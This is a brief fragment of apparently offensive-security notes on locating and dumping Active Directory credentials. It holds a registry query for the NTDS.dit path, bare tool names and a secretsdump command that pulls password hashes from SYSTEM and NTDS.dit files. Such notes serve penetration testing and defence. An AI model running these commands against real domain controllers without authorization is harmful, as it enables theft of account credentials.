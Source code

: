 # Unix Shell

TODO: Demonstrate using smbclient to download hashes

### Enumerate Registry Files

```
C:\> reg query [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

```
$ regshell
```

```
$ reg.py
```

`$ secretsdump -system /path/to/SYSTEM -ntds /path/to/NTDS.dit local`